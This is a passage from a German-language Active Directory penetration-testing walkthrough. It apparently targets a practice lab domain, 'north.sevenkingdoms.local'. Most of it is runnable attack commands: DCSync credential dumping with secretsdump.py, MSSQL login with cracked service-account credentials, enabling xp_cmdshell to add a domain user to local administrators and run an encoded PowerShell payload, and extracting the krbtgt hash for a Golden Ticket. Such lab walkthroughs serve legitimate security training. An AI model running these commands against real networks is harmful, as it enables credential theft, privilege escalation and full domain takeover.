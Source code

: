 
## Phase 6: Privilege Escalation

### 6.1 DCSync Attack Preparation

#### Checking DCSync Rights
```bash
# Nach BloodHound-Analyse: DCSync-Rechte identifizieren
# Falls jon.snow DCSync-Rechte hat oder über andere Privilegien verfügt

# DCSync gegen alle DCs versuchen
secretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 -just-dc

# Falls erfolgreich: Vollständige Credential-Extraktion
secretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 -outputfile north_domain_secrets
```

#### Alternative Privilege Escalation Paths

**Via Service Account Compromise:**
```bash
# sql_svc Account via Kerberoasting (falls noch nicht geknackt)
# Dann SQL Server-Privilegien für OS Command Execution nutzen

# MSSQL-Verbindung mit Windows Auth
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/sql_svc:cracked_password@192.168.20.22
```

**SQL Server Privilege Escalation:**
```sql
-- xp_cmdshell aktivieren
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Als SYSTEM ausführen (SQL Server-Kontext)
EXEC xp_cmdshell 'whoami';

-- Lokale Admin-Rechte hinzufügen
EXEC xp_cmdshell 'net localgroup administrators "north\jon.snow" /add';

-- PowerShell für weitere Exploitation
EXEC xp_cmdshell 'powershell.exe -enc <base64_encoded_payload>';
```

### 6.2 Golden Ticket Attack

#### KRBTGT Hash Extraction
```bash
# Nach erfolgreichem DCSync
secretsdump.py -just-dc-user krbtgt north.sevenkingdoms.local/administrator:password@192.168.20.11

# Domain SID identifizieren (aus früheren enum4linux-Scans)
# NORTH Domain SID: S-1-5-21-[domain-specific-sid]
```
